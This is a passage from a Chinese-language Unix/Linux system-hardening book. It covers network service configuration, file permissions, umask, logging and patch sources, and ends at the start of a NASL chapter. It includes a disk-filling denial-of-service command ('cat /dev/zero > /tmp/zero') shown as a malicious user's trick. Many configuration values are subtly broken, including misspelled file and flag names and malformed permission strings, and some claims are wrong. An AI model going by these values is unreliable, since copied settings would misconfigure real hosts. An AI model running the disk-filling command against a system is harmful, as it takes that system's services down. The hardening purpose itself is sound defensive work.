TCP Wrappers 允许监控和过滤网络服务的传入请求。大多数发行版默认安装 TCP Wrappers，但如果您需要它，可以从 ftp://ftp.porcupine.org/pub/security/index.html 获取。


在安装了 TCP Wrappers 的主机上，编辑 `/etc/hosts.allow` 并确保以下行是第一个未注释的语句：

```
ALL:ALL:deny
```

此外，请确保默认拒绝来自所有主机的连接。这可以通过在 `/etc/hosts.deny` 中放置以下条目来实现：

```
all:all
```

通过在 `/etc/hosts.allow` 中放置适当的条目，仅允许受信任的主机连接到服务。请参阅 http://www.cert.org/security-improvement/implementations/041.07.html 获取详细说明。

## 加固 inetd 和 xinetd 配置

Internet 服务守护进程 inetd 用于启动提供网络服务的守护进程。它监听所有必需的端口，并在传入网络连接到达时立即启动相应的守护进程。因此，inetd 常被称为“超级服务器”。xinetd 守护进程类似于 inetd，但包含更多的功能，因此 inetd 用户应强烈考虑升级到 xinetd。

### 禁用不必要的服务

如果使用 inetd，请编辑 inetd.conf 文件并确保禁用不必要的服务。例如，考虑 inetd.conf 中负责 FTP 守护进程的以下行：

```
ftp stream tcp nowait root /usr/local/etc/tcpd /usr/local/etc/ftpd
```

为了从 inetd 禁用 FTP，请在该行前添加 `#`：

```
#ftp stream tcp nowait root /usr/local/etc/tcpd /usr/local/etc/ftpd
```

重启 inetd 以使更改生效：

```
killall -HUP inetd
```

如果使用 xinetd，请编辑 xinetd.d 目录中的相应服务文件，并确保存在 `"disable = yes"` 这一行。

许多服务独立于 inetd 和 xinetd 运行。通过编辑或删除 `/etc/rc.d/` 目录中的相应脚本，禁用不必要服务的启动。

### 如果没有启用的服务，请禁用 inetd 或 xinetd

如果所有 inetd 或 xinetd 服务均已禁用，则无需让 inetd 或 xinetd 继续运行。为了阻止 inetd 或 xinetd 在启动时执行，请在 `/etc/rc.d` 和 `/etc/rc.local` 中禁用相应的文件。

### 确保日志记录已开启

如果正在运行 inetd，请编辑 inetsvc 文件并确保使用 `-t` 标志调用 inetd。对于 xinetd，请编辑 xinetd.conf 文件并确保存在以下行：

```
log_type = SYSLOG authpriv
```

此外，编辑 syslog.conf 并确保启用 `*.info` 以记录到 `/var/log/messages`。

## 加固远程服务

本节提供了针对 Unix 和 Linux 主机上常用的一些远程服务的加固建议。

使用 `netstat` 查找监听 TCP 和 UDP 端口的进程：

```
[bash]# netstat -nap
Proto Local Address     Foreign Address   State  PPID/name
tcp   0 0.0.0.0:139     0.0.0.0:*  LISTEN   1251/smbd
tcp   0 0.0.0.0:6000    0.0.0.0:*  LISTEN   11228/X
tcp   0 0.0.0.0:80      0.0.0.0:*  LISTEN   2047/httpd
tcp   0 0.0.0.0:113     0.0.0.0:*  LISTEN   728/identd
tcp   0 0.0.0.0:22      0.0.0.0:*  LISTEN   750/ssh
tcp   0 0.0.0.0:512     0.0.0.0:*               14059/xinetd
udp 
[...]
```

### WU-FTPD

FTP（文件传输协议）是一种用于在主机之间传输文件的协议。WU-FTPD 是 Unix 和 Linux 上使用最广泛的 FTP 守护进程。它可从 [http://www.wu-ftpd.org](http://www.wu-ftpd.org) 获取。请采取以下措施加固 WU-FTPD：

- 更改服务器横幅。编辑 `/etc/ftpassd` 并使用 `greeting` 指令指定新的横幅。例如：

```
greeting text No banner information available. Sorry.
```

- 确保 `/etc/ftpusers` 包含不应允许通过 FTP 登录的用户列表。诸如 root、bin 和 httpd 等用户不应被允许通过 FTP 登录。

- 编辑 inetd.conf 或 `/etc/xinetd.d/ftp`，确保 in.ftpd 是使用 `-l` 标志调用的。这将启用日志记录。

- 如果允许匿名上传，上传的文件必须不可见，并且应禁止下载上传的文件。否则，您的 FTP 服务器可能会被软件盗版者滥用。请参阅 `http://www.wu-ftpd.org/HOWTO/upload.conf` 获取详细信息。

- 使用 chroot FTP 环境，特别是对于匿名访问。请参阅 `http://www.wu-ftpd.org/HOWTOguest.HOWTO` 获取有关如何设置的详细说明。

考虑使用 ProFTPD 作为 WU-FTPD 的替代品，因为它被证明比 WU-FTPD 更容易受到更少的远程漏洞影响。ProFTPD 可从 `http://www.proftpd.org/` 获取。

### SSH

SSH 是一种用于数据交换的安全协议。它可以用于登录远程机器、远程执行命令和传输文件。由于 SSH 内部的通信是加密的，因此它是 telnet、rlogin 和 FTP 等远程登录解决方案的有价值替代。请采取以下措施加固 SSH：

- 确保已禁用 SSH 协议版本 1。`sshd_config` 文件必须包含以下行：`Protocol 2`

- 不应允许 root 用户通过 SSH 登录。确保 `sshd_config` 中存在以下行：`PermitRootLogin no`

- 像 `ssh_host_key`、`ssh_host_dsa_key` 和 `ssh_host_rsa_key` 这样的私钥文件应仅由 root 可读。

- 确保特权分离已开启。`sshd_config` 中必须存在以下行：`UsePrivilegeSeparation yes`

### Sendmail

Sendmail 是 Internet 上最流行的 MTA（邮件传输代理）。为了加固 Sendmail，请务必采取以下措施：

- 更改 SMTP 问候消息。编辑 sendmail.cf 文件并更改 SmtpGreetingMessage 的值以反映新的横幅。或者，您可以编辑 sendmail.mc 并将 confSMTP_LOGIN_MSG 的值设置为新的问候语。

- EXPN 和 VRFY 是 SMTP 协议支持的两个命令，允许进行用户名枚举。您应该通过编辑 sendmail.cf 并确保将 PrivacyOptions 设置为 authwarnings,noexptn, novrfy, restrictqrun 来关闭它们。或者，您可以编辑 sendmail.mc 文件并确保存在以下行：
  `define('confPRIVACY_FLAGS', 'authwarnings,noexxn,novrfy, restrictqrun')dnl`
  还可以设置 goaway、restrictmailq、restrictqrun 和 nobodyreturn 等其他标志。请参阅 Sendmail 文档以获取详细信息。

- 使用 smrsh 作为 MDA（邮件投递代理）。smrsh 程序是 sh 的替代品；它限制了使用 Sendmail 的 “| command” 语法可执行的命令。要启用 smrsh，请确保 sendmail.mc 中存在以下行：
  `FEATURE('smrsh', '/path/to/smrsh')dnl`

- 确保以下文件和目录具有适当的权限：

| 文件或目录 | 用户 | 组 | 权限 |
| :-- | :-- | :-- | :-- |
| /etc/aliases | root | root | -rw-r--r-- |
| /etc/mail | root | root | drwxr-x--x |
| /var/spool/mail | root | mail | drwxrwxr-x |
| /var/spool/mqueue | root | mail | drwxr-x--x |

- 检查 /etc/mail/aliases 的内容。此文件包含允许通过 Sendmail 服务器中继的主机名。请勿在此文件中放置不受信任的主机名。

- 对允许的最大电子邮件大小设置限制。可以通过在 sendmail.mc 中设置 confMAX_MESSAGE_SIZE 的值来实现，例如：
  `define('confMAX_MESSAGE_SIZE', '1048576')dnl`
  或者，编辑 sendmail.cf 文件并将 MaxMessageSize 的值更改为适当的值。

- 已知 Sendmail 容易受到许多可远程利用的漏洞的影响。考虑使用 qmail 作为替代方案。


用于 Sendmail。qmail 程序可以从 http://cr.yp.to/qmail.html 获取。

> Sendmail.mc 是一个宏配置文件。如果对此文件进行了修改，必须通过以下命令生成新的 sendmail.cf 文件：

```
m4 /etc/mail/sendmail.mc > /etc/sendmail.cf
```

这将生成更新后的 sendmail.cf 文件。重启 Sendmail 以使更改生效。

## BIND (DNS)

DNS（域名系统）是一种用于在域名和 IP 地址之间进行转换的协议。BIND（Berkeley Internet Name Domain）是互联网上最广泛使用的 DNS 服务器。请采取以下措施来强化 BIND：

- 编辑 BIND 配置文件 named.conf，并覆盖版本号：

```
options {
    version "Not available";
};
```

- 限制区域传输。使用 allow-transfer 指令来指定允许执行区域传输的主机：

```
options {
    allow-transfer ( ip_address; );
};
```

- 此外，考虑使用 TSIG（事务签名）来加密交换区域数据。

- 关闭递归查询。这将防止你的 DNS 服务器容易受到欺骗攻击：

```
options {
    fetch-glue no;
    recursion no;
};
```

- 在 chroot 环境中运行 BIND。详情请参阅 http://www.homeport.org/~adam/dns.html 和 http://www.etherboy.com/dns/chrootdns.html。

- 限制动态更新，因为此功能允许远程实体删除和添加记录。默认情况下，BIND 不允许动态更新。只能使用 allow-update 语句启用它，因此请谨慎使用此选项。

考虑使用 djbdns 作为 BIND 的替代方案。djbdns 服务器可在 http://cr.yp.to/djbdns.html 获取。

## Apache (HTTP 和 HTTPS)

Apache 是当今最流行的 Web 服务器。可以采取以下步骤来强化 Apache 服务器配置：

- 更改你的 HTTP 横幅。编辑 httpd.conf 文件并确保存在以下指令：
  - `ServerSignature Off`
  - `ServerTokens Prod`
  
  禁用 `ServerSignature` 令牌指示 Apache 在显示错误页面（如 404 未找到）时不打印版本信息。当设置为 `Prod` 时，`ServerTokens` 指令指示 Apache 仅在横幅中显示“Server: Apache”。如果你不想在 Server 标签中显示“Apache”，但想显示诸如“Server: Not-allowed”之类的虚假信息，你需要：

  1. 下载 Apache 源代码。
  2. 编辑文件 httpd.h，并将行 `#define SERVER_BASEPRODUCT "Apache"` 中的字符串“Apache”的值更改为其他内容：`#define SERVER_BASEPRODUCT "Not-allowed"`
  3. 重新编译、重新安装并重启 Apache。

- 关闭自动索引。这将指示 Apache 在不存在默认索引文件（如 index.html）时不提供目录列表。在 httpd.conf 中使用 `IndexIgnore` 指令来完成此操作。
- 配置 Apache 不提供敏感文件，例如 .htaccess、.htpasswd、*.inc、*.jsp、*.java 或 *.php。例如，使用以下指令在 httpd.conf 中限制 Apache 提供以 .ht 开头的文件名：

```
<Files ~ "^\.ht">
Order allow,deny
Deny from all
</Files>
```

- 移除默认手册页面。
- 移除默认和示例 CGI 脚本及应用程序。

使用 `AccessFilename` 指令设置 Apache 必须用于访问控制的文件名。这通常设置为 `.htaccess`。

考虑在 chroot 环境中运行 Apache。请参阅 http://hoohoo.ncsa.uiuc.edu/docs/tutorials/chroot.html 以获取详细步骤。

确保 Apache 设置为以非 root 权限运行。在 `httpd.conf` 中寻找 `User` 和 `Group` 设置，并确保这些设置为非 root 账户，如 `apache` 或 `httpd`。

使用 `ErrorLog`、`CustomLog`、`LogLevel` 和 `LogFormat` 指令启用日志记录。确保这些在 `httpd.conf` 中设置得当。

禁用不需要的模块。在 `httpd.conf` 中注释掉相应的 `AddModule` 和 `LoadModule` 指令行。

## Samba

Samba 使用 SMB（服务器消息块）协议通过网络共享文件和打印机。请遵循以下步骤来强化 Samba 服务器配置：

更改服务器字符串。编辑 `smb.conf` 并将
```
server string = Samba Server
```
改为其他内容：
```
server string = no information
```
这将更改显示在每个共享名称旁边的描述字段。

若要更改实际的 Samba 版本信息，请编辑 `source/include/version.h` 文件并将常量 `VERSION` 的值更改为其他内容。必须重新编译并重新安装 Samba 才能使更改生效。

编辑 `smb.conf` 并设置 `hosts allow` 选项的值，以限制允许连接到你的服务器的主机。

使用密码加密。在 `smb.conf` 中将 `encrypt passwords` 的值设置为 `yes`。更多信息请参见 http://us1.samba.org/samba/tp/docs/texdocs/ENCRYPTION.txt。

如果你有一个以上的网卡，可以指示 Samba 仅监听一个特定的接口。在 `smb.conf` 中使用 `interfaces` 选项来指定 Samba 必须监听的接口。

- 研究 smb.conf 文件，确保没有授予存储关键信息的共享来宾访问权限。

## NFS

NFS（网络文件系统）是一种文件系统协议，提供跨网络对共享文件的远程访问。以下是你可以采取的一些步骤来强化 NFS 服务器配置：

- 以只读方式导出文件系统。考虑不要以写入权限导出它们。在 `/etc/exports` 或 `/etc/dfs/sharetab` 中使用 `ro` 选项来指定只读共享。以下是一个示例：
  - `/share nfsclient_ip(ro)`

- 防止非 root 用户挂载 NFS 共享。为此，编辑 `/etc/exports` 或 `/etc/dfs/sharetab`，并确保存在 `(secure)` 选项。例如：
  - `/share nfsclient_ip(secure)`

- 不允许远程用户以 root 权限挂载 NFS 共享。这将允许他们修改 NFS 共享中由 root 拥有的文件。在 `/etc/exports` 或 `/etc/dfs/sharetab` 中使用 `root_squash` 选项来防止这种情况。

- NFS 客户端必须配置为在挂载的共享上运行非 setuid 程序。否则，恶意或被入侵的 NFS 服务器可能会在导出的共享中放置 root setuid 木马文件，这些文件将在客户端上以 root 权限执行。在挂载 NFS 共享时使用 `nosuid` 选项。如果可能，也考虑使用 `noexec` 选项，该选项禁止在 NFS 客户端上执行二进制文件。

### 总结

尽可能强化系统配置非常重要。必须严格强制执行密码策略，以确保使用强密码，并且如果未使用不必要的服务，应禁用它们。此外，应禁用栈执行以防止多种形式的缓冲区溢出攻击。诸如 `/.rhosts` 和 `/etc/hosts.equiv` 等文件必须定期审计，如果未使用则应删除。`PATH` 变量不应包含 `""`，以防止木马可执行文件。强烈建议实施本章中所述的强化步骤，以确保远程服务的安全配置。

# 第 8 章

# 用户和文件系统权限

本章内容：

- 文件权限：快速教程
- 全局可读文件
- 全局可写文件
- 由 bin 和 sys 拥有的文件
- umask 值
- 重要文件
- /dev 中的文件
- 磁盘分区
- setuid 和 setgid 文件
- 实施 wheel 组
- Sudo
- 总结

必须严格控制用户和文件系统权限。简单的配置错误，如单个文件的文件权限不正确，都可能导致整个系统被入侵。本章旨在为系统管理员提供有用的提示，以确保正确的用户和文件系统权限。

## 文件权限：快速教程

使用 `ls` 命令并加上 `-l` 标志来检查文件权限。例如，让我们检查分配给 `/usr/sbin/id` 命令的文件权限：

```
[bash]$ ls -l /usr/bin/id
-rw-r--r-- 1 root root 13864 Apr 8 2002 /usr/bin/id
```

上述输出的第一列描述了相关的文件权限。第一个字符设置为连字符（-），表示 `/usr/bin/id` 是一个文件。如果是目录，此字符将设置为 `d`。接下来的三个字符（rw-）代表文件所有者的权限，在这种情况下，如上述输出第三列所示，所有者是 root。随后的三个字符（-r-）代表与此文件关联的组的权限，在这种情况下，如输出的第四列所示，组也是 root。最后三个字符（r--）代表与所有其他用户（即所有人）相关的权限。

字符 r 表示读权限，而字符 w 和 x 分别代表写和执行权限。当分配了 setuid 或 setgid 权限时，字符 s 会替换 x。如果 root 用户为目录打开粘滞位，最后一个字符（x）将被 t 替换。当打开粘滞位时，所有用户对目录都有读和写权限，但只能访问他们自己拥有的文件。因此，请注意 /tmp 目录已打开粘滞位。

使用 `chmod` 命令来更改文件的权限。假设我们有一个名为“perm”的文件：

```
[bash]# ls -l perm
-rw-rw-r-- 1 root root 0 Apr 5 22:40 perm
```

上述列表显示用户 root 和组 root 具有读或写文件的权限。所有其他用户只能读取文件。如果我们想更改 perm 的文件权限，使 root 用户（u）也可以执行（x）该文件，我们需要如下执行 `chmod`：

```
chmod u+x perm
```


类似地，假设我们要撤销组（g）的读（r）和写（w）权限：

```
chmod g-rw perm
```
下面是我们如何撤销所有其他（o）用户的读（r）权限：

```
chmod o-r perm
```
也可以使用包含上述所有三种文件权限变更来执行 chmod：

```
chmod u+x,g-rw,o-r perm
```
Unix 和 Linux 文件权限也可以用数字形式表示。这是通过将每组权限（用户、组和其他）分解为八进制位来实现的。为了方便起见，这里是八个可能的八进制值列表：

| 值 | 权限 | 值 | 权限 |
|---|---|---|---|
| 0 | --- | 4 | r-- |
| 1 | --x | 5 | r-x |
| 2 | -w- | 6 | rw- |
| 3 | -wx | 7 | rwx |

因此，要设置文件的权限为 rwxr-xr-x，可以这样使用 chmod 命令：

```
chmod 755 perm
```
若要添加 setuid 权限，请在结果值中加上 4000。若要设置 setgid 权限，请加上 2000。若要同时设置 setuid 和 setgid 权限，请加上 6000。例如，要在文件所有者拥有读和写权限的同时设置 setuid 权限，请这样执行 chmod：

```
chmod 4600 perm
```

## 全局可读文件

定期审计全局可读文件是个好习惯。恶意用户常常寻找包含关键信息的全局可读文件，这些信息可能有助于他们进行权限提升。

使用 find 命令搜索全局可读文件：

```
find /etc -type f -perm -4 -print 2> /dev/null
```

## 全局可写文件

全局可写文件可能被恶意用户利用以获取 root 权限。考虑一个被设置为所有人可写的 setuid 可执行脚本。恶意用户可以编辑此类脚本，以 root 身份执行任何命令。

使用 find 命令搜索全局可写文件：

```
find / -type f -perm -2 -print 2> /dev/null
```

## 由 bin 和 sys 拥有的文件

某些发行版错误地将可执行文件的属主设置为非 root 用户，如“bin”和“sys”。

例如，假设 /usr/bin/in.telnnet 由用户“bin”拥有且可写。如果攻击者成功以用户“bin”的权限挂载服务器的 NFS /usr/bin 共享目录，他或她就可以用特洛伊木马替换 /usr/bin/in.telnetd，该木马将在每次收到传入 telnet 连接时由 inetd 或 xinetd 以 root 权限执行。

要检查“bin”拥有的文件，运行以下命令：

```
find / -user bin -print 2> /dev/null
```

类似地，使用以下命令检查“sys”拥有的文件：

```
find / -user sys -print 2> /dev/null
```

## umask 值

每当创建新文件或目录时，会根据“umask”值赋予默认权限。使用 umask 命令查看当前用户的 umask 值：

```
[bash]$ umask -p umask 0002
```
umask 的值是通过将文件权限八进制值与文件对应的 666 或目录对应的 777 进行异或（XOR）运算确定的。对于文件，请注意 umask 值不允许设置执行（x）权限。

XOR 代表“异或”。以下是 XOR 的真值表：

| XOR | 0 | 1 |
|---|---|---|
| 0 | 0 | 1 |
| 1 | 1 | 0 |

假设我们希望 umask 值指示文件所有者拥有读写权限，而组或其他用户没有任何权限。此外，假设我们希望目录的 umask 包含执行（x）权限。如果目录没有执行（x）权限，则无法 `cd`（更改目录）进入该目录。这种设置的文件权限值为 700，分解为八进制表示为：

```
111 000 000
```
使用上面的表，让我们将此值与 777 异或，以获得合适的 umask 值：

```
111 000 000 : 700
111 111 111 : 777
XOR: 000 111 111 : 077
```
使用 `umask` 命令设置新的 umask 值：

```
umask 077
```
推荐的 umask 值是 077。这使得每个新创建的文件或目录只能由其所有者读写。

请注意，umask 值由三组八进制位组成，即三组八位。编译器创建的文件通常遵循 umask 值（除了 x 位）。

## 重要文件

确保以下文件已分配正确的权限：

| 文件名 | 用户 | 组 | 权限 |
| :--- | :--- | :--- | :--- |
| `/bin` | root | root | drwxr-xr-x |
| `/etc` | root | root | drwxr-xr-x |
| `/etc/aliases` | root | root | -rw-r--r-- |
| `/etc/default/login` | root | root | -rw------- |
| `/etc/exports` | root | root | -rw-r--r-- |
| `/etc/hosts` | root | root | -rw-r--r-- |
| `/etc/hosts.allow` | root | root | -rw------- |
| `/etc/hosts.deny` | root | root | -rw------- |
| `/etc/hosts.equiv` | root | root | -rw------- |
| `/etc/hosts.lpd` | root | root | -rw------- |
| `/etc/inetd.conf` | root | root | -rw------- |
| `/etc/issue` | root | root | -rw-r--r-- |
| `/etc/login.access` | root | root | -rw------- |
| `/etc/login.conf` | root | root | -rw------- |
| `/etc/login.defs` | root | root | -rw------- |
| `/etc/motd` | root | root | -rw-r--r-- |
| `/etc/mtab` | root | root | -rw-r--r-- |
| `/etc/netgroup` | root | root | -rw------- |
| `/etc/passwd` | root | root | -rw-r--r-- |
| `/etc/rc.d` | root | root | drwx------ |
| `/etc/rc.local` | root | root | -rw------- |
| `/etc/rc.sysinit` | root | root | -rw------- |
| `/etc/security` | root | root | -rw------- |
| `/etc/services` | root | root | -rw-r--r-- |
| `/etc/shadow` | root | root | -r------- |
| `/etc/ssh/ssh_host_key` | root | root | -rw------- |
| `/etc/ssh/sshd_config` | root | root | -rw------- |
| `/etc/ssh/ssh_host_dsa_key` | root | root | -rw------- |
| `/etc/ssh/ssh_host_key` | root | root | -rw------- |
| `/etc/ssh/ssh_host_rsa_key` | root | root | -rw------- |
| `/etc/ttys` | root | root | -rw------- |
| `/root` | root | root | drwx------ |
| `/sbin` | root | root | drwxr-xr-x |
| `/tmp` | root | root | drwxrwxrwt |
| `/usr/bin` | root | root | drwxr-xr-x |
| `/usr/etc` | root | root | drwxr-xr-x |
| `/usr/sbin` | root | root | drwxr-xr-x |
| `/var/log` | root | root | drwxr-xr-x |
| `/var/log/authlog*` | root | root | -rw------- |
| `/var/log/boot*` | root | root | -rw------- |
| `/var/log/cron*` | root | root | -rw------- |
| `/var/log/dmesg` | root | root | -rw------- |
| `/var/log/lastlog` | root | root | -rw------- |
| `/var/log/mailog*` | root | root | -rw------- |
| `/var/log/messages*` | root | root | -rw------- |
| `/var/log/secure*` | root | root | -rw--- |
| `/var/log/spooler*` | root | root | -rw--- |
| `/var/log/syslog*` | root | root | -rw--- |
| `/var/log/utmp*` | root | utmp | -rw-rw-r-- |
| `/var/log/wtmp*` | root | utmp | -rw-rw-r-- |
| `/var/log/xferlog` | root | root | -rw--- |
| `/var/run` | root | root | drwx-xr-x |
| `/var/run/*.pid` | root | root | -rw-r-r-- |
| `/var/spool/cron` | root | root | drwx--- |
| `/var/spool/cron/crontabs/root` | root | root | -rw--- |
| `/var/spool/mail` | root | mail | drwxwxr-x |
| `/var/spool/mail/*` | user | user | -rw-rw--- |
| `/var/tmp` | root | root | drwxrwxrwt |

> 上表列出的少数文件可能不适用于所有发行版。此外，一些文件可能存在于不同的目录中。使用 find 命令定位它们：find / -type f -name filename -print 2> /dev/null。

## /dev 中的文件

设备由 /dev 目录中的特殊文件表示，并且必须在这些文件上设置适当的文件权限。考虑 /dev/hda*，它代表 Linux 中的 IDE 磁盘。如果这些文件对全局可读，恶意用户将对磁盘上的所有数据拥有读权限！使用 mount 命令查找系统中已挂载驱动器关联的 /dev 文件。

此外，确保其他设备文件设置了适当的权限，例如 /dev/console、/dev/tty/*、/dev/pty/*、/dev/audio 和 /dev/dsp*。

## 磁盘分区

恶意用户可能通过消耗所有可用磁盘空间发起拒绝服务攻击。考虑以下命令：

```
[bash]$ cat /dev/zero > /tmp/zero ^C
```

上述命令将创建一个新文件 /tmp/zero。除非用户按 CTRL-C 中断命令，否则该文件的尺寸将持续增加。/dev/zero 是一个特殊的、无穷无尽的文件，其中包含零值。如果让上述命令运行一段时间，恶意用户可能会耗尽磁盘上的所有空间。由于许多正在运行的程序需要并依赖于可用的磁盘空间才能正常运行，这可能会导致不良后果。

建议将以下目录挂载到独立的分区中：

- /boot
- /home
- /tmp
- /var

此外，在挂载 /var 和 /tmp 分区时，请考虑使用 nodev、nosuid 和 noexec 选项。

## setuid 和 setgid 文件

检查那些设置了 setuid 和 setgid 位的文件，因为此类文件会以所有者的权限执行。由 root 或 wheel 拥有的 setuid 和 setgid 文件中的漏洞可能导致获得 root 权限。如果可能，请考虑从文件中移除 setuid 和 setgid 位。

要查找 setuid 文件，请运行

```
find / -perm -4000 -type f -print 2> /dev/null
```

要查找 setgid 文件，请运行

```
find / -perm -2000 -type f -print 2> /dev/null
```

## 实施 wheel 组

使用 wheel 组来限制对 su 等 setuid 程序的访问。如果该组不存在，请使用 groupadd 命令创建它。更改 su 的权限，使得只有 wheel 组中的用户才能执行它：

```
chgrp wheel `which su`
chmod u+s,o-rwx,u+rwx,g+rx `which su`
```

## SUDO

Sudo 是一个免费工具，允许授权用户使用 root 权限执行命令。如果多人需要执行特权操作，设置 Sudo 来提供特定权限是个好主意。这比共享 root 密码要好得多。Sudo 通常包含在大多数发行版中，但也可以在 http://www.sudo.ws/sudo/ 获取。关于如何设置和配置 Sudo 的说明和示例，请参阅 http://www.onlamp.com/pub/a/bsd/2002/08/29/Big_Scare_Daemons.html。

### 总结

理解并强制执行正确的文件权限至关重要。除了由 bin 和 sys 等系统账户拥有的文件外，还必须定期审计对所有人可读和可写的文件。umask 值应设置为尽可能严格。重要的配置文件也必须经过审计，以确保权限正确。必须为 /tmp 和 /var 等目录创建磁盘分区，以防范拒绝服务攻击。在可能的情况下，应使用 wheel 组来限制对 setuid 程序等可执行文件的访问。使用 Sudo 允许用户以超级用户权限执行文件也是个好主意。这比共享 root 密码要好得多。

## 第 9 章

# 日志记录与补丁

本章内容：

- 日志记录
- 补丁
- 总结

本章描述了系统事件日志记录的最常见方法；接下来的部分涵盖了具体的日志文件及其包含的信息。每个系统管理员理解不同事件及其记录位置都很重要。没有这些信息，系统管理员将无法得知主机上正在发生哪些事件和活动。

除了日志记录，另一个重要问题是软件更新。每天都会公布软件漏洞及其利用代码。通常，这些漏洞由软件供应商以补丁或软件更新的形式进行修复。本章提供了获取此类软件补丁的资源。

## 日志记录

本节描述了具体的日志文件及其包含的信息。此外，还讨论了 /var 上的磁盘空间和日志轮转等问题。作为管理员，请务必理解本节中呈现的信息，以便检测异常的系统活动和行为。

### 日志文件

以下是一些常见的日志文件以及通常记录到其中的信息。定期浏览这些文件是个好主意。

> 根据你的 Unix 或 Linux 发行版，某些日志文件可能位于不同的目录中。如果你找不到这些文件，请使用 find 命令定位它们：`find /var -name filename -print 2> /dev/null`。

#### /var/audit

大多数 Solaris 发行版都附带了 BSM（Basic Security Module，基本安全模块），这是一个记录用户操作详情的实用程序。由于 BSM 在系统调用级别进行审计，可能会生成巨大的日志文件。

要启用 BSM，请切换到 runlevel 1：

```
init 1
```

接下来，运行 bsmonv：

```
cd /etc/security ; ./bsmonv
```

配置 /etc/security/audit_control 以选择要记录的事件。请参阅 http://www.securityfocus.com/infocus/1362 获取详细说明。更改配置后需要重启才能生效。

#### /var/adm/loginlog

在五次未成功的登录尝试后，后续的所有尝试都会记录到此文件中。每个日志事件包含登录名、tty 信息和时间。仅当此文件存在时才会记录到该文件。因此，如果该文件不存在，请使用 touch 命令创建它。确保此文件仅 root 可读。

#### /var/adm/sulog

su 命令用于登录到另一个用户的账户。例如，用户 joe 可能会使用 su 登录到 jack 的账户：

```
[joe's_bash]$ su - jack
Password: jackspassword
[jack's_bash]$
```

类似地，用户也可以使用 su 命令以 root 身份登录：

```
[joe's_bash]$ su -
Password: rootpassword
[root's_bash]#
```

记录所有 su 尝试非常重要。这样做有助于检测恶意本地用户的暴力破解密码猜测尝试。编辑 /etc/default/su 并确保 SULLOG 的值指向 /var/adm/sulog。你也可以通过将 SYSLOG 的值设置为 yes 来启用 syslogd 日志记录。

#### /var/log/cron

cron 守护进程将此文件记录信息。编辑 /etc/syslog.conf 并确保存在以下行：

```
cron.*    /var/log/cron
```

#### /var/log/maillog

此文件包含主机邮件服务器记录的信息。关于发出和接收电子邮件的详细信息以及相应的错误消息都会记录到该文件。编辑 /etc/syslog.conf 并确保存在以下行：

```
mail.*    /var/log/maillog
```

#### /var/log/messages

此文件包含由 syslogd 记录的信息性消息。要启用记录到该文件，/etc/syslog.conf 中必须存在类似下面的行：

```
*.info;mail.none;authpriv.none;cron.none /var/log/messages
```

#### /var/log/secure

通过用户名和密码或其他类似机制进行身份验证的进程通常记录到该文件。确保该文件仅 root 可读。/etc/syslog.conf 中必须存在类似下面的行：

```
authpriv.* /var/log/secure
```

#### /var/log/wtmp

此日志文件包含有关主机上发生的所有登录的信息。它不是 ASCII 文件，因此必须使用 last 等提供的工具查看。以下示例显示了最近五次登录或注销尝试：

```
[bash]$ last | head -5
nit   pts/0  gateway    Fri Apr 11 10:12   still logged in
anita  pts/1  nest       Thu Apr 10 21:14   still logged in
ozzy   pts/1  gateway    Thu Apr 10 21:06 - 21:08  (00:01)
kelly  pts/1  ftpserver  Thu Apr 10 20:01 - 20:02 (00:00)
sharon pts/0  wireless   Thu Apr 10 16:34 - 21:26 (04:52)
```

#### /var/run/utmp

此文件包含有关当前登录到主机的用户的信息。它不是 ASCII 文件，因此必须使用 w 或 who 等工具查看。

```
[bash]$ who
deepthi  pts/0    Apr 14 10:12 (intranet)
yash     pts/1    Apr 13 21:14 (egmore/ftp)
natasha  pts/1    Apr 13 20:10 (pune/https)
```

## 日志轮转

日志文件有快速增长并消耗大量磁盘空间的倾向。在某些环境中，删除旧日志内容是合理的。要启用日志轮转，大多数发行版使用工具


例如 `newsyslog` 或 `logrotate`。这些工具应通过 `cron` 守护进程频繁调用。有关更多详细信息，请查看 `newsyslog` 或 `logrotate` 的手册页（man pages）。

## /var 目录的剩余空间

根据环境不同，存储在 `/var` 目录中的日志和 spool 文件可能会变得非常大。使用 `df` 命令定期检查 `/var` 中的剩余空间是一个好习惯。

`/var` 目录必须作为独立的分区挂载。请参见第 8 章中的“磁盘分区”部分以获取更多信息。

## 补丁管理

保持软件补丁和更新处于最新状态至关重要。诸如 Bugtraq 之类的邮件列表经常会列出软件漏洞，软件供应商通常会迅速修复这些问题。根据你所使用的发行版和包管理工具，这些补丁可能位于不同的位置。下表列出了最流行的 Unix 和 Linux 发行版，以及获取软件补丁的资源：

| 发行版 | 补丁 |
| :--- | :--- |
| AIX | <http://techsupport.services.ibm.com/rs6000/fixes> |
| BSDI | <http://www.bsdI.com/services/support/patches/> |
| Caldera OpenLinux | <ftp://ftp.calderasystems.com/pub/updates/OpenLinux/> |
| Debian Linux | <http://www.debian.org/security/> |
| FreeBSD | <ftp://ftp.freebsd.org/pub/FreeBSD/releases/> |
| IRIX | <http://www.sgi.com/support/security/> |
| HP Unix | <http://us-support.external.hp.com/> |
| Mandrake Linux | <http://www.linux-mandrake.com/en/security/> |
| NetBSD | <http://www.netbsd.org/Security/> |
| OpenBSD | <ftp://ftp.openbsd.org/pub/OpenBSD/patches/> |
| Red Hat Linux | <http://www.redhat.com/support/errata/> |
| Slackware Linux | <ftp://ftp.slackware.com/pub/slackware/> |
| Solaris | <ftp://sunsolve1.sun.com/pub/patches/> |
| SuSE Linux | <http://www.suse.com/us/support/security/index.html> |

通常，发行版供应商花费更多时间将其资源更新为包含安全补丁的状态。如果你的 Unix 或 Linux 发行版供应商没有列出针对已公布漏洞的补丁，请尝试前往软件供应商的网站查找补丁。如果你必须等待你的发行版供应商提供更新，请考虑暂时禁用或卸载易受攻击的软件。

此外，请查看本书参考文献中心的“在线资源”部分，了解可以订阅的邮件列表，以便及时接收最新软件漏洞公告的更新。

## 本章小结

必须启用并强制执行日志记录，以捕获系统活动的详细信息。此外，必须正确设置日志文件的文件权限，以防止恶意用户对其进行篡改。保持软件更新和补丁最新也非常重要，以保护系统免受本地和远程用户利用软件漏洞的影响。因此，每个系统管理员都应尝试实施本章中提出的建议，以确保防范各种类型的恶意活动和入侵尝试。

# 第三部分

# 专题

- **第 10 章** Nessus 攻击脚本语言 (NASL)
- **第 11 章** 无线黑客技术
- **第 12 章** 使用 Sharp Zaurus PDA 进行黑客攻击

# 第 10 章

# Nessus 攻击脚本语言 (NASL)

本章内容：

- 从命令行运行 NASL 脚本
- 使用 NASL 编写 Nessus 插件
- 小结

